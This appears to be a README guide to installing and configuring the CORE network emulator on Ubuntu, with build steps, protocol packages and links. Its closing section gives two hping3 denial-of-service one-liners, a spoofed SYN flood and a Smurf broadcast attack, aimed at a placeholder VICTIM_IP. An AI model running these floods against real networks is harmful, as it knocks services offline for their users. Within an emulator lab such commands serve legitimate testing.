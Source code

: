 # CORE (Common Open Research Emulator)
## How to install and use it on Ubuntu (tested on 17.04): A fast hand-on guide <br/><br/>  

## Table of contents
- [Install CORE from source](#install-core-from-source)
- [Use CORE](#use-core)
- [Some links](#some-links)
- [Useful tools](#useful-tools)
<br/><br/>

## Install CORE from source
1. Get the source:
    - [https://github.com/coreemu/core]()

2. Install build dependencies:
    ```
    sudo apt-get install build-essential autotools-dev automake wget git gitk
    ```

3. Install network dependencies:
    ```
    sudo apt-get install quagga xorp bird isc-dhcp-server vsftpd apache2 tcpdump radvd at ucarp openvpn ipsec-tools racoon traceroute mgen wireshark tshark docker docker-compose python-docker
    ```

4. Install GUI dependencies:
    ```
    sudo apt-get install ebtables libtcl8.5 libtk-img libtk8.5 tcl8.5 tk8.5
    ```

5. Get and install core specific protocols:
    - EMANE ([https://www.nrl.navy.mil/itd/ncs/products/emane]()):
    ```
    wget https://downloads.pf.itd.nrl.navy.mil/emane/1.0.1-r1/emane-1.0.1-release-1.ubuntu-16_04.amd64.tar.gz
    tar -xvzf emane-1.0.1-release-1.ubuntu-16_04.amd64.tar.gz
    sudo dpkg -i emane-1.0.1-release-1/debs/ubuntu-16_04/amd64/*.deb
    sudo apt-get --fix-broken install
    ```

    - OLSR ([https://www.nrl.navy.mil/itd/ncs/products/olsr]()):
    ```
    wget https://downloads.pf.itd.nrl.navy.mil/olsr/nrlolsrdv7.8.1.tgz
    tar -xvzf nrlolsrdv7.8.1.tgz
    sudo apt-get install libpcap-dev
    cd nrlolsr/unix/ && make -f Makefile.linux
    sudo mv nrlolsrd /usr/bin/
    ```

    - SMF ([https://www.nrl.navy.mil/itd/ncs/products/smf]()):
    ```
    wget https://downloads.pf.itd.nrl.navy.mil/smf/src-nrlsmf-1.1b2a.tgz
    tar -xvzf src-nrlsmf-1.1b2a.tgz
    cd smf-1.1b2/unix/ && make -f Makefile.linux
    _#FIXME_
    ```

    - NHDP([https://www.nrl.navy.mil/itd/ncs/products/nhdp]()):
    ```
    wget https://downloads.pf.itd.nrl.navy.mil/nhdp/nrlnhdp-alpha-0.47.tgz
    (contains SMF and OLSR, nothing more to do here)
    ```

6. Build and install CORE:
```
./bootstrap.sh
./configure
make
sudo make install
```

7. Reload the core-daemon service (and delete old logs):
```
sudo service core-daemon stop && sudo systemctl daemon-reload && sudo rm /var/log/core-daemon.log && sudo service core-daemon start
```

8. Generate CORE documentation
```
sudo apt-get install python-sphinx texlive-latex-base
make html
make latexpdf
```
## Use CORE
Simply start core-gui and start playing :)

## Some useful information

### Configuration files
Configuration folders for core are located at:
```
/home/<username>/.core/
/etc/core/
```
Have a close look at the /etc/core/core.conf file, don't forget to back it up first !
```
sudo cp /etc/core/core.conf /etc/core/core.conf.bak
```

If you plan to use Xen virtualization support, you can configure it in
```
/etc/core/xen.conf
```

Core daemon performance alarms can be customized in
```
/etc/core/perflogserver.conf
``` 

## Some links
- Official page: [https://www.nrl.navy.mil/itd/ncs/products/core]()
- GitHub: [https://github.com/coreemu/core]()
- Documentation: [https://downloads.pf.itd.nrl.navy.mil/docs/core/core-html/index.html]()

- EMANE page: [https://www.nrl.navy.mil/itd/ncs/products/emane]()
- EMANE github: [https://github.com/adjacentlink/emane]()

Tutorials:
- First steps in CORE: [http://www.brianlinkletter.com/core-network-emulator-test-drive/]()
- Install network services: [http://www.brianlinkletter.com/core-network-emulator-install-network-services/]()
- Customize network services: [http://www.brianlinkletter.com/how-to-customize-core-network-emulator-services/]()
- CORE+docker: [http://www.finmars.co.uk/blog/9-core-and-docker-together-at-last]()

## Useful tools

### hping3
Utility to spam the network ([http://0daysecurity.com/articles/hping3_examples.html]())
#### Install

```sudo apt-get install hping3```

#### DOS Land Attack 
```hping3 -V -c PKY_CNT -d DATA_SIZE -S -w WIN_SIZE -p DEST_PORT -s SRC_PORT --flood --rand-source VICTIM_IP```
#### Smurf Attack
```hping3 -1 --flood -a VICTIM_IP BROADCAST_ADDRESS```
